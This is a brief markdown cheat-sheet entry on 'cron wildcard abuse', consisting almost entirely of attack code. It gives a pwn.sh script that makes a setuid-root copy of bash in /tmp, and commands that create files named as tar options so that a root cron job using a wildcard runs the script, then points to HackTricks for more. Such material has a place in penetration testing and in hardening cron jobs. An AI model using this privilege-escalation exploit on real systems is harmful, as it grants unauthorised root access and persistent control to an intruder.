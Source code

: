 # cron Wildcard Abuse

**pwn.sh**

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod u+s /tmp/bash
```

```bash
# Exploiting tar
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh pwn.sh"
```

See [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks) for additional examples.
